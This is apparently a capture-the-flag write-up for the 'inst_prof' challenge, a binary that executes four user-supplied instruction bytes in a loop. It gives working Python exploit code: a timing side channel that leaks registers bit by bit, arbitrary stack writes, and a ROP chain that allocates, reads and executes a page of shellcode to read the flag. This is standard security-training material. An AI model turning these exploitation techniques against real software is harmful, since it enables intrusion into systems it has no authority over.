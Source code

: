 # inst_prof

This challenge accepts 4 Bytes of Instructions and executes them in a tight loop, returning the runtime.
The do_test function is called in a while-true loop.
The Pseudocode looks as follows:

```C
void read_inst(void *page)
{
    read_n(page, 4);
}

void do_test()
{
    void *page = alloc_page()
    read_inst(page); //Insert 4 Bytes from User into a Template
    make_page_executable(page)

    r12 = rdtsc;
    ((void (*)())page)();
    rdx = rdtsc - r12;

    write(1, rdx, 8);
    free_page(page);
}
```

The disassembly of the Template:

```assembly
mv ecx, 0x1000
your_code:
<your 4 bytes>
sub ecx, 1
jne your_code
ret
```

## Leaking Stuff
First of all we noticed, that the registers r14 and r15 are not altered between two iterations.
This allows to preserve minimal state between two executions.
To leak registers, we stored the value to leak in r15 and extracted the value bit by bit.

```python
def leak_r15(lowest_bit=0, highest_bit=48):
    #skip not needed bits
    for n_bit in range(0, lowest_bit):
        execute("shr r15,1; ret")

    #leak
    leak = 0
    for n_bit in range(lowest_bit, highest_bit+1):
        #prepare bit mask
        execute("xor r14, r14")
        execute("inc r14; ret")
        execute("and r14, r15")

        #leak
        t = execute("sub r12, r14")
        if t > thres:
            leak |= 1 << n_bit

        #shfit r15
        execute("shr r15,1; ret")

    return leak
```

As r12 holds the start timestamp, the returned runtime can be artificialy increased depending on r14.
The time difference between 0 and 1 bits is roughly factor 2.
Even though, as we only use one attempt to read a bit (without averagig) to reduce the toal runtime, this attemp of leaking fails sometimes.


## Writing to Stack
To prepare a ropchain, we need to write arbitrary data to Stack.
The address we want to write to is stored in r15.
```python
def write_buff(what):
    for c in what:
        execute("movb [r15],0x%02x" % ord(c))
        execute("inc r15; ret")
```

## Exploit
The binary already contains lots of nice gadgets, such as alloc_page, read_n and make_page executable.
First we have to leak the address of the old Page and of course the binary base address for the ROP gadgets.

```python
execute("pop r15; push r15")
binary_base = leak_r15(lowest_bit=12,highest_bit=40) | 0x550000000000

execute("mov r15, rdi")
page_old = leak_r15(lowest_bit=12,highest_bit=48)
```

Then we prepare the rop chain.
We used the gadgets to allocate a new page, read arbitrary data and execute it.
rsi already contains 0x1000, the size of one page, what was usefull for alloc_page and read_n.
As the behavior for mmap is deterministic, we can compute the address of the newly allocated page from the previous allocated one.

```python
alloc_page = binary_base + 0x9f0
pop_rdi = binary_base + 0xbc3
read_n = binary_base + 0xa80
make_page_executable = binary_base + 0xa20
pop_rbx_r12_rbp = binary_base + 0xaab
call_rbx = binary_base + 0xb16

ropchain  = struct.pack("<Q", alloc_page)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", read_n)
ropchain += struct.pack("<Q", pop_rdi)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", make_page_executable)
ropchain += struct.pack("<Q", pop_rbx_r12_rbp)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", page_old - 0x1000)
ropchain += struct.pack("<Q", call_rbx)
```

To write the ropchain without crashing the programm, we used rsp+0x1000 as a target and placed it in front of the mains stack frame.

```python
execute("mov %r15, %rsp; ret")
execute("inc %r15")
write_buff(ropchain)
```

Then we write the address of the ROP chain to rsp to trigger the execution.
```python
execute("mov r15, rsp; ret")
execute("inc r15")
CODE = asm("mov rsp,r15; ret").ljust(4, asm("nop"))

con.send(CODE)
con.send(shellcode)
con.send("cat flag.txt\n")
```

After some attempts, the Flag shows up:
```
CTF{0v3r_4ND_0v3r_4ND_0v3r_4ND_0v3r}
```

